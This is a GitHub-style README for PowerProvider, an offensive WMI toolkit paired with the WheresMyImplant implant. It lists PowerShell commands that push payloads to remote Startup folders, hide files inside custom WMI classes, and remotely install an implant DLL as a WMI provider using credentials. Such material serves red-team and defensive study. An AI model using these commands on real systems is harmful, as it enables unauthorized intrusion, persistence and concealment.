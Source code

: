 ## PowerProvider

PowerProvider: A toolkit to manipulate WMI. This toolkit provides functionality to:
* Duplicate Classes
* Create static classes for file storage
* Remote Install WMI Providers

Primarily used in conjunction with WheresMyImplant - https://github.com/0xbadjuju/WheresMyImplant/

### Methods
#### Class Duplication
  * **Invoke-WMIDuplicateClass**
    * Invoke-WMIDuplicateClass -TargetClassName Win32_Process -DuplicateClassName Win32_Create -ComputerName $ComputerName -Credential $Credential

#### File Transfer
  * **Invoke-WMIUpload**
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Destination $Destination -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Inject -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
  * **Invoke-WMIRemoteExtract**
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIRemoteExtract -PayloadName Payload.exe -Destination $Destination -ComputerName  $ComputerName -Credential $Credential

#### File Storage
  * **New-WMIFSClass**
    * New-WMIFSClass -ComputerName $ComputerName -Credential $Credential
  * **ConvertTo-Base64**
    * $File = ConvertTo-Base64 -FileName C:\Payload.exe -Inject
  * **Invoke-InsertFileThreaded**
    * Invoke-InsertFileThreaded -EncodedText $File -FileName Payload.exe -ComputerName $ComputerName -Credential $Credential -Verbose
  * **Invoke-RetrieveFile**
    * $File = Invoke-RetrieveFile -FileName C:\Payload.exe -ComputerName $ComputerName -Credential $Credential
  * **ConvertFrom-Base64**
    * $FileBytes = ConvertFrom-Base64 -ComputerName $ComputerName -Credential $Credential
  * **ConvertTo-EncryptedText**
    * $EncryptedString = ConvertTo-EncryptedText -PlaintextString $File
  * **ConvertFrom-EncryptedText**
    * $File = ConvertFrom-EncryptedText -EncryptedString $EncryptedString
    
#### Provider Install
  * **Install-WMIProviderInstallUtil**
    * Install-WMIProviderInstallUtil -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Install-WMIProviderPowerShell**
    * Install-WMIProviderPowerShell -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Install-WMIProviderExtention**
    * Install-WMIProvider -LocalLibraryLocation C:\WheresMyImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Uninstall-WMIProviderExtention**
    * Uninstall-WMIProvider -ProviderName WheresMyImplant -ClassName Win32_Implant C:\WheresMy -ComputerName $ComputerName -Credential $Credential
